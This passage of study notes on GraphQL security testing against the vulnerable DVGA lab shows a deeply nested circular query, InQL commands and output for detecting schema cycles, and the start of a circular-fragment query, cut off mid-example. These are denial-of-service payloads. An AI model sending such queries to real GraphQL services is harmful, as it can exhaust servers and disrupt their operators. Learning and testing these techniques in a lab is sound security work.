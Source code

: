 		query {   
			pastes {     
				owner {       
					pastes {
						owner {           
							pastes {             
								owner {               
									name             
								}           
							}        
						}       
					}     
				}   
			} 
		}

	```

#### Identifying Circular Queries using InQL

- To execute the circular query check, we’ll pass three flags to InQL: 
	- **`-f`** flag, to use the JSON file we downloaded
	- **`--generate-cycles`** flag, to perform the circular query detection check and 
	- **`-o`** flag, to write the output to a dedicated folder. 
	- The following command combines these flags to perform the circular query detection: 
	```bash
	$ inql -f /home/kali/introspection_query.json --generate-cycles -o dvga_cycles 
	[!] Parsing local schema file [+] Writing Introspection Schema JSON 
	[+] Writing query Templates Writing systemUpdate query Writing pastes query 
	[+] Writing mutation Templates 
	[+] Writing createPaste mutation 
	[+] Writing Query Cycles to introspection_query 
	[+] DONE
```
- After the check is complete, you’ll notice that a dvga_cycles folder was created by InQL. 
- Within this folder, look for a text file that starts with the word cycles; this file will contain the result of the script’s execution. 
- You can run this command to see the outcome of the check: 
	```bash
	$ cat dvga_cycles/introspection_query/cycles* Cycles(         
											{ OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }         
											{ OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject } 
										)
	 ```
	 - InQL was able to find paths in the schema where a circular relationship exists between the PasteObject and OwnerObject nodes.

#### Circular Fragment Vulnerabilities

- GraphQL operations can share logic through the use of fragments. 
- Fragments are defined by the client, and as such, clients can build any logic they desire into them. GraphQL specification documentation contains rules about how fragments should be implemented:
	- ***The graph of fragment spreads must not form any cycles including spreading itself. Otherwise, an operation could infinitely spread or infiniterly execure on cycles in the underlying data.***
- An interesting condition will occur here: 
	```js
		query CircularFragment {   
			pastes {     
				...Start   
			} 
		} 
		
		fragment Start on PasteObject {   
```